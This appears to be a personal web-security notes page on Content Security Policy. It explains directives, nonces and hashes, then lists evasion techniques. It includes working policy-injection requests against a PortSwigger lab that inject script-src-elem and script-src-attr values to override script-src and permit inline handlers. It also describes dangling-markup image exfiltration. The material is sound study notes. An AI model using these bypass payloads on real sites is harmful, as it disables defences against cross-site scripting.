

>[!summary]
>Content Security Policy (CSP) is a detection and prevention mechanism that provides mitigation against attacks such as [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) [^1] and [Clickjacking](Clickjacking.md). CSP is usually implemented in the web server as a return header of the form: `Content-Security-Policy: policy` where policy is a string of policy directives separated by semicolons.

[^1]: https://portswigger.net/web-security/cross-site-scripting/preventing#:~:text=Mitigating%20XSS%20using%20content%20security%20policy%20(CSP)

The CSP provides the client browser with information about permitted resources that a page can load or from which can be embedded in frames.

Some examples:
- `Content-Security-Policy: frame-ancestors 'self';`: CSP whitelists frames to the same domain only
- `Content-Security-Policy: frame-ancestors normal-website.com;`: framing restricted to a named site
- `Content-Security-Policy: script-src 'self';`: scripts are allowed only from the same origin ([SOP](Same-origin%20policy%20(SOP).md))
- `Content-Security-Policy: script-src https://scripts.normal-website.com;`: scripts are allowed only from a specific domain
- `Content-Security-Policy: img-src 'self';`: images are allowed only from the same origin ([SOP](Same-origin%20policy%20(SOP).md))
- `Content-Security-Policy: img-src https://scripts.normal-website.com;`: images are allowed only from a specific domain

In addition to whitelisting specific domains, content security policy also provides two other ways of specifying trusted resources: nonces and hashes:

- The CSP directive can specify a nonce (a random value) and the same value must be used in the tag that loads a script. If the values do not match, then the script will not execute. To be effective as a control, the nonce must be securely generated on each page load and not be guessable by an attacker.
- The CSP directive can specify a hash of the contents of the trusted script. If the hash of the actual script does not match the value specified in the directive, then the script will not execute. If the content of the script ever changes, then you will of course need to update the hash value that is specified in the directive.

>[!warning] CSP and Electron applications
>What does the `script-src 'self'` CSP value mean for `file://` URLs used in Electron App? 
>
>It allows **any file from the file system** to be loaded! [^csp-electron]

[^csp-electron]: [Paul Gerste - Remote Code Execution in Tutanota Desktop Due to Code Flaw](../../Readwise/Articles/Paul%20Gerste%20-%20Remote%20Code%20Execution%20in%20Tutanota%20Desktop%20Due%20to%20Code%20Flaw.md#^ee5e7a)

## CSP Evasion

### Using `img` and dangling markup

It's quite common for a CSP to block resources like `script`. However, many CSPs do allow image requests. This means you can often use `img` elements to make requests to external servers in order to disclose [CSRF tokens](Cross-Site%20Request%20Forgery%20(CSRF).md#CSRF%20tokens), for example.

From the research: [Evading CSP with DOM-based dangling markup](https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup)

.md#XSS%20+%20Dangling%20Markup%20+%20CSP%20bypass%20+%20CSRF)

### Policy injection

You may encounter a website that reflects input into the actual policy, most likely in a `report-uri` directive. If the site reflects a parameter that you can control, you can inject a semicolon to add your own CSP directives.

Default policy (noticed the `token` parameter in `report-uri`):
```http
GET /?search= HTTP/1.1
Host: 0a6f005403a5d035877a0ba0009b00f6.web-security-academy.net


HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=
```

The parameter can be controlled and arbitrary policies can be injected:
```http
GET /?search=&token=filler;+foo+'bar' HTTP/1.1
Host: 0a6f005403a5d035877a0ba0009b00f6.web-security-academy.net


HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=filler; foo 'bar'
```

Normally, it's not possible to overwrite an existing `script-src` directive. However, Chrome recently introduced the `script-src-elem` [^script-src-element] directive, which allows you to control `script` elements, but not events.

[^script-src-element]: https://w3c.github.io/webappsec-csp/#directive-script-src-elem

```html
Content-Security-Policy: script-src-elem 'none'; script-src-attr 'unsafe-inline'

<script>alert("This will be blocked")</script>
<a href="#" onclick="alert('This will be allowed')">test</a>
```

Crucially, this new directive allows you to [overwrite existing `script-src` directives](https://portswigger.net/research/bypassing-csp-with-policy-injection).

```http
GET /?search=&token=filler;+script-src-elem+'none'%3b+script-src-attr+'unsafe-inline' HTTP/1.1
Host: 0a6f005403a5d035877a0ba0009b00f6.web-security-academy.net


HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=filler; script-src-elem 'none'; script-src-attr 'unsafe-inline'
```



Further examples:
- [eXtra Safe Security layers](../../Play%20ground/CTFs/eXtra%20Safe%20Security%20layers.md)

### Other techniques

- [AngularJS CSP bypass](../Dev,%20scripting%20&%20OS/AngularJS.md#AngularJS%20CSP%20bypass)
- [Ambushed by AngularJS: a hidden CSP bypass in Piwik PRO](https://portswigger.net/research/ambushed-by-angularjs-a-hidden-csp-bypass-in-piwik-pro)
- [Bypass CSP using MIME sniffing](MIME%20sniffing.md#Bypass%20CSP%20using%20MIME%20sniffing)
- Bypass CSP using [JSONP](JSONP%20vulnerabilities.md#JSON%20with%20Padding%20(JSONP)) as a gadget [^CSP-JSONP]

[^CSP-JSONP]: [Riding the Waves of API Versioning Unmasking a Stored XSS Vulnerability, CSP Bypass Using YouTube OEmbed](../../Readwise/Articles/SMHTahsin33%20-%20Riding%20the%20Waves%20of%20API%20Versioning%20Unmasking%20a%20Stored%20XSS%20Vulnerability,%20CSP%20Bypass%20Using%20YouTube%20OEmbed.md), SMHTahsin33